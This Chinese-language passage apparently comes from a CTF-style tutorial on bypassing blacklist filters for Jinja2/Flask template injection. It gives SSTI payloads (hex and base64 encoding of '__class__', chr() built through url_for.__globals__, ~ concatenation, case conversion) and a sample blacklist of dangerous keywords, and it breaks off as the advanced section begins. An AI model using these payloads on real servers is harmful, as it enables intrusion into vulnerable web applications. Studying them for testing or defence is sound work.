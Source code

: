

**4、编码绕过**


```plain
"__class__"=="\x5f\x5fclass\x5f\x5f"=="\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f"对于python2的话，还可以利用base64进行绕过（所以我没记错）"__class__"==("X19jbGFzc19f").decode("base64")

```



**5.利用chr函数**


因为我们没法直接使用chr函数，所以需要通过__builtins__找到他


```plain
{% set chr=url_for.__globals__['__builtins__'].chr %}{{""[chr(95)%2bchr(95)%2bchr(99)%2bchr(108)%2bchr(97)%2bchr(115)%2bchr(115)%2bchr(95)%2bchr(95)]}}

```



**6、在jinja2里面可以利用~进行拼接**


```plain
{%set a='__cla' %}{%set b='ss__'%}{{""[a~b]}}

```



**7、大小写转换**


前提是过滤的只是小写


```plain
""["__CLASS__".lower()]

```






以上是常见的思路。可是假设有一天，你碰到了这样的玩意，你该怎么做？


```plain
blacklist</br>   '.','[','\'','"',''\\','+',':','_',</br>   'chr','pop','class','base','mro','init','globals','get',</br>   'eval','exec','os','popen','open','read',</br>   'select','url_for','get_flashed_messages','config','request',</br>   'count','length','０','１','２','３','４','５','６','７','８','９','0','1','2','3','4','5','6','7','8','9'</br>    </br>

```



所以下面讲一讲进阶操作。

## FLASK进阶操作
